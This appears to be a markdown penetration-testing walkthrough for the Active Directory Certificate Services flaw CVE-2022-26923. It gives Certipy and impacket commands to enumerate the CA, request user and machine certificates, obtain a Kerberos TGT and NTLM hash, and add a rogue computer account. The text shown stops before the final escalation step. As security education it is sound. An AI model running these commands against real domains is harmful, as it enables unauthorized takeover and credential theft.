 # Active Directory Certificate Services (ADCS) CVE-2022-26923

This attack relies on ADCS being available within the internal active directory network you are attempting to compromise. Furthermore, a low privieged domain user account will be required for the steps in the attack path.

With the low privileged user credentials, search for the ADCS server within the active directory domain. This can be done by running `certutil.exe` within Microsoft Windows, or by using `Certipy.py`, which is available from https://github.com/ly4k/Certipy. Certipy requires Python 3 and also impacket to be installed. If this attack is ran from a Kali Linux machine attached to the network, the dependencies should come preinstalled.

*Note that ADCS does not have to be running on the domain controller, and quite often it will be ran on its own server instance*

Use certipy to discover the details of the ADCS server within the domain. The following command will list the details of the Certificate Authority "CA" within the AD environment, along with what certificate templates are available:

```
certipy.py find 'domain.local/username:password@dc1.adcs-server.domain.local'
```

Now a certificate can be generated for the current user using Certipy and the "User" template. This will then download a ".pfx" certificate file. The name of the CA can be found from the output of the `Certipy.py find` command or `certutil.exe`

```
certipy.py req 'domain.local/username:password@dc1.adcs-server.domain.local' -ca "Name Of CA" -template user
```

Now a TGT can be obtained for the user using Certipy. The following command will generate a CCACHE file containing a Kerberos TGT for the user "username". THe command will output the CCACHE file, along with the NTLM hash for the user.

```
certipy.py auth -pfx username.pfx
```

Now impacket can be used to add a new computer object to the active directory domain. In a default active directory configuration, a standard user can add up to 10 machine accounts. Providing the user can add a machine account to the domain, `addcomputer.py` can be used:

`addcomputer.py 'domain.local/username:password' -method LDAPS -computer-name NEW-PC -computer-password Password123!`

Now with the new computer added to the domain, a machine certificate can be requested from the ADCS server:

```
certipy.py req 'domain.local/NEW-PC$:Password123!@dc1.adcs-server.domain.local' -ca "Name Of CA" -template Machine'
```

The certificate will download as a ".pfx" file with the `NEW-PC.pfx`. 

